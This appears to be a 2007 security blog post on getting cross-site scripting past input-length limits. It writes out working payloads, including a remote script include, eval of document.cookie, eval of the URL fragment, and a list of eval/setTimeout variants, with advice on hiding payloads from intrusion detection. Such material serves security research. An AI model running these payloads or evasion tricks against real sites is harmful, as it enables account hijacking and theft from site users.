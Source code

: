 ```yaml
---
title: Playing in Large
author: petko-d-petkov
date: Tue, 06 Feb 2007 14:18:53 GMT
template: this/views/post.jade
---
```


> Many times, Web Applications enforce restrictions on the number of characters the user can input. That happens quite often since this is probably the easiest and most obvious way of sanitizing the user input. Overcoming these restrictions, when performing Cross-site scripting attacks, is a challenge, so I am going to discuss a few techniques that I have developed, which prove to be quite useful in various situations.

When you are restricted by the size of input, you have to think about the smallest possible unit that can expand to something that is much bigger. In traditional buffer overflow vulnerabilities attackers take advantage of various packaging techniques. Sometimes, the overflow crack is so small that only 140-160 bites (figuratively speaking) of data can squeeze in. This obstacle is overcome by injecting small piece of binary code that downloads additional, much larger, piece of code (probably an executable). Similar principles apply to Cross-site scripting vulnerabilities. Let's generalize the XSS payload structure in order to find how to squeeze data into a **N** characters long field.

When dealing with Cross-site scripting vulnerabilities we may need to close or fix the markup to the place where the injection occurs. This adds a few characters, so we need to count them as part of the payload. Think about them as a nop sled. If the injection occurs inside an element attribute, you may need to inject something like the following:

	">[payload]<!--

The first two characters will close/fix the markup to the place where the injection occurs. Then the payload follows. After the payload everything else is commented out to ensure that nothing breaks the injected code. This adds four characters at the end.

Most of the time, when more then the maximum characters needs to be inject, attackers go through the extreme situation of including a remote JavaScript file via a `SCRIPT` tag. For example:

	"><script src="http://path/to/evil"></script><!--

This file can be of any size and can contain as much code as we want. However, like overflow vulnerabilities, this technique is fairly restricted in terms of the easily applicable preventing mechanisms against it.

If you imagine that the payload, discussed above, is part of an AJAX worm, the easiest way to fight the malware back is to block access to `http://path/to/evil`. That of course is not the desired effect attackers try to achieve.

In order to bypass the restriction without using external resources you need to look for a way of transmitting information to the exploited target. This can be achieved by setting the cookie wit CSRF, for example, and evaluating its content inside the browser. The following may become our payload:

	"><script>eval(document.cookie)</script><!--

Sneaky! This technique relies on a different vulnerability so it might not be the best way of achieving the desires result.

Fortunately or not, WEB technologies are so flexible that attackers can always find ways to squeeze stuff in the fields they are after. Here is how we can change the payload in order to fit a couple of kilobytes JavaScript code inside 60 characters long field.

	"><script>eval(location.hash.substr(1))</script><!--

The payload above is composed of 55 characters in total. This includes the sled and the end fix. What this snippet does is evaluating everything that is part of the hash (fragment identifier), which is part of the URL. The above payload can be translated into the following imaginative attack URL.

	http://path/to/vulnerable/application?vuln="><script>eval(location.hash.substr(1))</script><!--#**[payload]**

If you replace "**[payload]**" with the code your want to execute then in practice you inject 55 characters into the server side application and the rest is obtained by the client. The server side restriction is bypassed. This attack can be refined to produce even smaller injected payload. For example:

	http://path/to/vulnerable/application?vuln="><script>eval(location.substr(92))</script><!--#**[payload]**

The example above presents a reduced payload that is composed of 48 characters in total. Keep in mind that we are still able to evaluate everything that is after the hash or in simple words; we evaluate everything from the URL after the 92nd character.

Although we are generally discussing how to fit more stuff into a size restricted, unsanitezed field, the techniques presented above are suitable for all kind of situations. In fact, I believe that they are the desired way of performing Cross-site scripting attacks.

You should know that fragment identifier (the hash) is not part of the server request; as such attackers can use it to hide their malicious activities. Every large URL can trigger the Intrusion Detection system. This is something that attackers try to avoid. If the server activities are less suspicious, the chances of somebody discovering the exploit are also greatly reduced.

For testing and demonstration purposes you can use the following list of variations of the attack technique discussed in this article:

```javascript
eval(location.substr(92))
setTimeout(location.substr(92))
```

```javascript
eval(location.hash.substr(1))
setTimeout(location.hash.substr(1))
```

```javascript
eval((''+location).substr(28))
setTimeout((''+location).substr(28))
```

```javascript
eval(location.search.substr(20))
setTimeout(location.search.substr(20))
```
